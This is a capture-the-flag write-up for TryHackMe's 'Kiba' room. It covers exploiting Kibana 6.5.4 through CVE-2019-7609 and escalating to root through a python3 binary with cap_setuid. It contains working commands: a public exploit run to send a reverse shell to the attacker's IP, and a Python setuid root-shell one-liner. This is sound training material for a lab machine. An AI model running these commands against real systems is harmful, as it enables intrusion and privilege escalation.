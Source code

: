 ```yaml
---
layout: post
title: kiba writeup
subtitle: Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/kiba/logo.png
share-img: /assets/img/path.jpg
tags: [ctf,tryhackme, writeup, kiba, Capabilities]
---
```


Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution. Have Fun!


## Here is a machine information

| Title | Kiba | 
| :------ |:--- | 
| Difficulty | Easy | 
| Point | 500 |
| Maker | Stuxnet |
| Infor | This is a free room, which means anyone can deploy virtual machines in the room  | 


## RUST SCAN and Enumeration
Normally, i will use the nmap for first step recon and also collect machine information. After some machine and read the article about rust scan. So what is the rust scan? How is it work? you can find here: https://github.com/RustScan/RustScan. It realy fast than nmap. 


``` rustscan -b 500 machine-ip ```
<em>

-b : the batch size for port scanning, it increases or slows the speed of scanning. Depends on the open file limit of your OS.  If you do 65535 it will do every port at the same time. Although, your OS may not support this [default:4500]
</em>

It will take few time to scan: 

![rustscan](/assets/img/kiba/rustscan.png)

We got 3 open ports. Go through each port. In port 5601, this is the kibana application.

![kibana](/assets/img/kiba/5601.png)

Kibana is a free and open user interface that lets you visualize your Elasticsearch data and navigate the Elastic Stack. Do anything from tracking query load to understanding the way requests flow through your apps.

We can manual go throung all tag in the kibana. We got version 6.5.4.
Let's google the version which have any public vulnerability.
There is the vulnerability as remote code executed in this version.

![kibana](/assets/img/kiba/vulnerability.png)

From the CVE-2019-7609, we can use 2 source from here:

By manual: https://github.com/mpgn/CVE-2019-7609 and this is detail explanation why have this issue: https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/

By auto code: https://github.com/LandGrey/CVE-2019-7609

I will use auto code try to exploit. Clone the code from github

``` git clone https://github.com/LandGrey/CVE-2019-7609.git ```

Exploit by run command:

``` python CVE-2019-7609-kibana-rce.py  -u http://machine-ip:5601 -host yourip port 1234 --shell ```

At your attacker machine, we need to listen the port 1234

![nc](/assets/img/kiba/nc.png)

Then wait for shell connect

![shell](/assets/img/kiba/shell.png)

From kibana home directory, we have the user flag.

![shell](/assets/img/kiba/user.png)

## 	Escalate privileges 

As the hint, Capabilities is a concept that provides a security system that allows "divide" root privileges into different values.
Here is more source if you don't understand it.

- [Working with Linux Capabilities](https://www.vultr.com/docs/working-with-linux-capabilities#)

- [Linux Privilege Escalation using Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

Reading capabilities
To view if a file has any capability set, you can simply run 

`getcap /full/path/to/binary`

If you'd like to find out which capabilities are already set on your system, you can search your whole file-system recursively with the following command:

```getcap -r /```

Run this command on target machine, you will see a lot of error. To ignore error we should run:


```getcap -r / 2>/dev/null```

![shell](/assets/img/kiba/result.png)

The thing realy interesting is: `/home/kiba/.hackmeplease/python3 = cap_setuid+ep
`

The python3 can SETUID which can abuse to Escalate root.

From https://gtfobins.github.io/gtfobins/python/#capabilities we have available code to exploit. Let's do it.

```python
 /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")' 
 ```

 Yeahm, we got root user.

 ![shell](/assets/img/kiba/root.png)

Now we can find root flag via: 

```javasript
find / -type f -name root.txt 2>/dev/null
```

Then we cat the root.txt and got the flag.!!!
